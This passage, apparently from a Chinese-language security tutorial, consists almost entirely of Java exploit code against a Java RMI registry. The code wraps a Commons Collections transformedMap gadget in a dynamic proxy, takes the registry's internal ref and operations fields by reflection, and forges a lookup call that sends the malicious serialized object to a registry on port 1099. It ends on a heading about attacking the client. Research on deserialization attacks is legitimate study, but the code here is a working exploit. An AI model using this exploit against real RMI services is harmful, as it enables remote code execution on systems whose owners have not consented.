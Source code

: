```java
        Object instance = constructor.newInstance(Target.class, transformedMap);

        // 通过动态代理转换为Remote对象
        InvocationHandler invocationHandler = (InvocationHandler) instance;
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));

        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 反射获取ref
        Field ref_field = registry.getClass().getSuperclass().getSuperclass().getDeclaredField("ref");
        ref_field.setAccessible(true);
        UnicastRef ref = (UnicastRef)ref_field.get(registry);
        // 反射获取operations
        Field operations_field = registry.getClass().getDeclaredField("operations");
        operations_field.setAccessible(true);
        Operation[] operations =(Operation[]) operations_field.get(registry);
        // 伪造lookup方法
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(remote);
        ref.invoke(var2);
    }
}
```

![image-20230111163922276](images/image-20230111163922276.png)

#### 攻击客户端
